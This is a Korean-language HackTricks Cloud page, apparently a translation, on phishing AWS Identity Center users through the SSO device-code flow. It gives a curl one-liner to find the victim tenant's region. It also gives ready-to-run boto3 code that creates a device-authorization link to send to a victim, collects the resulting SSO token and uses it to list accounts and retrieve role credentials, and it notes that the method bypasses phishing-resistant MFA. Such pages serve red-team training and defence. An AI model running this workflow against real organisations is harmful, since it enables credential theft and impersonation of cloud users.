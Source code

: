 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

처음에 [**이 블로그 게시물**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)에서 제안된 바와 같이, AWS SSO를 사용하는 사용자에게 **링크**를 보내면 **사용자가 수락**할 경우 공격자는 **사용자를 가장할 수 있는 토큰**을 얻고 **Identity Center**에서 사용자가 접근할 수 있는 모든 역할에 접근할 수 있습니다.

이 공격을 수행하기 위한 전제 조건은 다음과 같습니다:

* 피해자는 **Identity Center**를 사용해야 합니다.
* 공격자는 피해자가 사용하는 **서브도메인**을 알아야 합니다 `<victimsub>.awsapps.com/start`

이전 정보만으로도, **공격자는 사용자에게 링크를 보낼 수 있으며**, **수락**할 경우 **공격자는 AWS 사용자** 계정에 접근할 수 있게 됩니다.

### Attack

1. **서브도메인 찾기**

공격자의 첫 번째 단계는 피해자 회사가 Identity Center에서 사용하는 서브도메인을 찾는 것입니다. 이는 **OSINT** 또는 **추측 + BF**를 통해 수행할 수 있으며, 대부분의 회사는 여기에서 자신의 이름이나 이름의 변형을 사용할 것입니다.

이 정보를 통해 Identity Center가 구성된 지역을 알 수 있습니다:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **피해자를 위한 링크 생성 및 전송**

다음 코드를 실행하여 피해자가 인증할 수 있도록 AWS SSO 로그인 링크를 생성합니다.\
데모를 위해 이 코드를 파이썬 콘솔에서 실행하고 종료하지 마십시오. 나중에 토큰을 얻기 위해 일부 객체가 필요합니다:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
전문적인 소셜 엔지니어링 기술을 사용하여 생성된 링크를 피해자에게 보내세요!

3. **피해자가 수락할 때까지 기다리세요**

피해자가 **이미 AWS에 로그인한 경우** 권한 부여를 수락하기만 하면 되고, 로그인하지 않은 경우 **로그인한 후 권한 부여를 수락해야 합니다**.\
현재 프롬프트는 다음과 같습니다:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO 액세스 토큰 가져오기**

피해자가 프롬프트를 수락한 경우, 이 코드를 실행하여 **사용자를 가장하여 SSO 토큰을 생성하세요**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO 액세스 토큰은 **8시간 동안 유효**합니다.

5. **사용자 가장하기**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### 피싱할 수 없는 MFA 피싱

이전 공격이 **"피싱할 수 없는 MFA" (webAuth)가 사용되고 있어도 작동한다는 사실은 재미있습니다**. 이는 이전 **워크플로우가 사용된 OAuth 도메인을 벗어나지 않기 때문입니다**. 사용자가 로그인 도메인을 대체해야 하는 다른 피싱 공격과는 달리, 장치 코드 워크플로우는 **코드가 장치에 의해 알려져** 있으며 사용자는 다른 기기에서도 로그인할 수 있습니다. 프롬프트를 수락하면, 장치는 **초기 코드를 알고 있기만 하면** 사용자의 **자격 증명을 검색할 수 있습니다**.

자세한 정보는 [**이 게시물을 확인하세요**](https://mjg59.dreamwidth.org/62175.html).

### 자동 도구

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## 참고 문헌

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
